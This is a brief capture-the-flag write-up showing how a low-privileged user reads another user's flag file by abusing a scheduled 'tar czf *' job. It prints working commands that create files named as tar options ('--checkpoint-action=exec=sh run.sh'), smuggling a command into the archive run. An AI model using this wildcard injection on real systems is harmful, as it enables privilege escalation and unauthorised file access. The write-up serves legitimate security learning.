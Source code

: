 	
We find out that there is 2 users (flag and notroot) and we are notroot.

The flag is in /home/flag but we can not read it, and we know that user flag run “/bin/tar czf *” every second from the hint.

We will make user flag to write the flag to another file where we can read it, which is in /tmp. Change the directory to /home/notroot and we use:

```bash
echo 'cat /home/flag/flag_c6b0057b3d798b0.txt > /tmp/flag.txt' > run.sh
echo "" > "--checkpoint-action=exec=sh run.sh"
echo "" > --checkpoint=1
```

```bash
cd /tmp
```

```bash
cat flag.txt
```

Then, we only need to go to /tmp and read flag.txt.

